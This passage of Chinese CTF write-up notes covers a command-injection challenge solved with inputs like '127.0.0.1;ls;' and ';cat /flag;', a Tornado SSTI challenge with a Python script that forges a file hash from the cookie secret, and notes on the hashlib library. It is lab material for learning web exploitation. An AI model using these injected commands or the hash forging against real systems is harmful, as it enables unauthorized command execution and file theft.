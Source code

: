 这样会执行当前目录下所有文件

## exec

exec（）执行一个外部程序

linux命令执行漏洞

先 构造127.0.0.1；ls; ping 一下

只有一个首页；

利用命令执行看一下根目录

;cat /;

发现有flag 又没有丝毫过滤

直接;cat /flag; 得到flag

# [极客大挑战 2019]Knife

白给的shell 没啥好总结的 有手就行

# [护网杯 2018]easy_tornado

### python 下 tornado框架下的SSTI注入

##### render()渲染函数的ssti

{{}}包裹执行

### 哈希碰撞

```
 import hashlib
def md5(s):
    md5 = hashlib.md5()（声明使用该库）
    md5.update(s.encode("utf8"))//update()必须指定要加密的字符串的字符编码因此必须用encode转码不然会编译错误
    return md5.hexdigest()
def filehash():
    filename='/fllllllllllllag'
    cookie_secret ='4c46b45d-ba3f-412f-8d8a-e477bd921512'
    print(md5(cookie_secret+md5(filename)))
if __name__ == '__main__':
    filehash() 
```

### python hashlib库

```
>>> import hashlib
>>> m = hashlib.sha256()            # 通过构造函数获得一个hash对象
>>> m.update(b'Nobody inspects')    # 使用hash对象的update方法添加数据（传参）（记得编码防报错）
>>> m.digest()                  	# 获得bytes类型的消息摘要
>>> m.hexdigest()                   # 获得16进制str类型的消息摘要
>>> m.digest_size                   # 查看消息摘要的位长
>>> m.block_size                    # 查看消息摘要的内部块大小 
```
